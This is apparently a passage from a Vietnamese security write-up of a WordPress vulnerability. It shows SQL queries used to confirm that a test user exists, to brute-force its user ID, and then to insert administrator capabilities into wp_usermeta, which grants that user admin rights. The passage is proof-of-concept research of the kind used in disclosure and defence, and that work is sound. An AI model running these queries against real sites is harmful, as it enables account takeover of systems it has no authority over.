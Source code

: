```php=

	$data=$row->data;
	$keyword='';
	//filter the data strip keyword
	if(stristr($data,';')){
		$datas=explode(';',$row->data);
		$data=$datas[0];
		$keyword=$datas[1];
	}
	  echo "$date,$action,$data,$keyword \n";

}
```

=> Truy vấn trả về row thì sẽ hiện date

Câu truy vấn một user không có trong db
```sql!
SELECT * FROM `wp_users` WHERE user_login='abc'
```

![image](https://hackmd.io/_uploads/BJaxNDkM0.png)

=> Quan sát thấy do không có row nào thoả điều kiện nên không hiện date

Thay `user_login` thành user `poc` vừa tạo

```sql!
SELECT * FROM `wp_users` WHERE user_login='poc'
```

![image](https://hackmd.io/_uploads/H1l7SD1GR.png)

=> User đã tồn tại trong hệ thống

### Xác định user id

```sql!
SELECT * FROM `wp_users` WHERE user_login='poc' and ID=1
```

Brute force giá trị ID 

![image](https://hackmd.io/_uploads/SJbpSPJz0.png)

Tìm được ID=2

### Thêm quyền admin cho user vừa tạo

User vừa tạo hiện tại chưa được gán quyền

![image](https://hackmd.io/_uploads/SkCj8wkMC.png)

Câu truy vấn để thêm quyền admin cho user dựa trên user_id

```sql!
INSERT INTO wp_usermeta (user_id, meta_key, meta_value) VALUES (2, 'wp_capabilities', 'a:1:{s:13:"administrator";b:1;}'), (2, 'wp_user_level', '10')
```
